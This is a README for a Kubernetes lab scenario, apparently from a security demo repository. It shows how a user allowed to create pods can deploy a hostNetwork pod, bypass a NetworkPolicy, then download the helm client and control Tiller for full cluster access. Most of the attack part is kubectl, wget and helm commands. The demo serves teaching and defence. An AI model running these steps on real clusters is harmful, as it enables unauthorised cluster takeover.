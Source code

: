 # Privilege escalation 
This scenario demonstrates the potential for privilege escalation and network policy bypass by a malicious insider or compromise of their credentials with the ability to create pods in a namespace leading to full cluster access.

[![asciicast](https://asciinema.org/a/293454.svg)](https://asciinema.org/a/293454)

NOTE: This scenario will run container with root access, and it set for demo purposes only. We strongly recommend **NOT RUNNING IT ON A LIVE CLUSTER**

## pre-requisites 
Make sure your cluster is setup following the [instructions here](../env/README.md)

## Lets Hack it

### Setup and install the RBAC and Network policy

1. apply the network policy and RBAC rules 
```console
kubectl apply -f privilege-escalation/daemonset.yaml
```
2. Test the access to the system 
```console
kubectl auth can-i --as demo@example.com create pods -n kube-system
kubectl auth can-i --as demo@example.com create pods -n default
```
### Deploy sample pod to test the access
1. Deploy a simple pod
```console
kubectl --as demo@example.com apply -f privilege-escalation/simplepod.yaml
```
2. Get a shell in the pod:
```console
kubectl --as demo@example.com exec -it simplepod -- /bin/sh
```
3. Attempt to reach tiller directly:
```console 
wget -qO - tiller-deploy.kube-system:44134
exit
```

### Bypass NetworkPolicy

1. Deploy a hostnetwork pod that bypasses network egress policy on the namespace.
```console
kubectl --as demo@example.com apply -f privilege-escalation/hostnetwork.yaml
```
2. Exec in, download the helm client binary and run `helm ls` to show that it can control Tiller.

```console
kubectl --as demo@example.com exec -it hostnetwork -- /bin/sh
```
```console
export PATH=/tmp:$PATH; cd /tmp; wget -qO helm.tar.gz https://get.helm.sh/helm-v2.16.1-linux-amd64.tar.gz; tar zxvf helm.tar.gz; chmod +x linux-amd64/helm; cp linux-amd64/helm .
```
```console
export HELM_HOST=tiller-deploy.kube-system.svc.cluster.local:44134; helm version
exit
```


## Cleanup
To cleanup run 
```console
kubectl delete -f privilege-escalation/
```